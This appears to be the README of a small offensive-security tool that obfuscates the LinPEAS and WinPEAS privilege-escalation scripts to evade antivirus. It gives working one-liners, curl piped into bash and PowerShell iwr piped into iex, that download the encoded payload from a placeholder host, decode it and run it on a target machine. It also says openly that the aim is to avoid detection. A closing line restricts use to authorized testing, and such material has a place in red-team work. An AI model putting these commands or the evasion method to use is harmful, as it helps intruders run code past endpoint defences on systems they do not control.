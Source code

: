 # obfuscated_linpeas
Just a quick setup to bypass most AV with PEAS scripts.
___
Run:
```bash
python3 encode.py linpeash.sh > encoded.txt
```
Fetch the generated password from the `encoded.txt` file (e.g. : `# Key: 3Wr9QKXC`)

Host `encoded.txt` and `decode.sh` and just use the decode usage command (e.g.: `curl http://your_host/encoded.txt | bash decode.sh -p 3Wr9QKXC | sh`)

It should be working with WinPEAS on Windows with `iwr -useb http://your_host/encoded.txt | iex (iwr -useb http://your_host/Wdecode.ps1); Decode -Key zqHgXMWD`.

Note: The obfuscation isn't good enough for Windows Defender yet (TODO).

Each encoding uses a new random key, unique signature every time.

Minimal Bash/Perl decoder to avoid detection.

Works over HTTP, supports stdin piping.
___
This tool is intended for educational and authorized security testing purposes only.
Unauthorized use of obfuscation techniques like this to bypass detection or execute payloads on systems without explicit permission is illegal and unethical.
